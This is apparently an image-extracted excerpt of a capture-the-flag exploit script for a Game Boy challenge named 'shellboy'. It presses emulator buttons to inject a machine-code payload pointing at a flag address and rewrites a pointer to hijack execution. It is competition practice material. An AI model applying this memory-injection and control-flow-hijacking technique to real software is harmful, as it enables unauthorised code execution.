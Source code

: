 ```
        #MAINTENANT LA PAYLOAD
        press_button(BUTTON_UP_ARROW)

        payload = [17,flag_address[idx_main][0],flag_address[idx_main][1],205,193,5,33,186,192,233]
        for i in range (10):
            print("REALISATION DE LA PAYLOAD POSITION "+str(i+1))

            press_button(BUTTON_RIGHT_ARROW)
            val = payload[i]        
            if val < 128:
                for j in range(val):
                    press_button(BUTTON_UP_ARROW)
            else:
                for j in range(255-val):
                    press_button(BUTTON_DOWN_ARROW)
            
        for i in range(6):
            press_button(BUTTON_RIGHT_ARROW)
        print("MODIFICATION DU POINTEUR D'ADDRESSE")

        for j in range(32):
            press_button(BUTTON_UP_ARROW)
        print("POINTEUR MODIFIE")

        for x in range(40):
            press_button(BUTTON_RIGHT_ARROW)
        print("MODIFICATION DE LA PREMIERE PARTIE D'ADDRESSE")

        for x in range(255-186):
            press_button(BUTTON_DOWN_ARROW)
        press_button(BUTTON_RIGHT_ARROW)
        print("MODIFICATION DE LA DEUXIEME PARTIE D'ADDRESSE")

        for x in range(255-192):
            press_button(BUTTON_DOWN_ARROW)
        
        press_button(BUTTON_START)
        save_frame("/home/devilsharu/Documents/ECW/shellboy/frames/ok{}.png".format(idx_main))
        print("FIN")



if __name__ == "__main__":
    main()
```
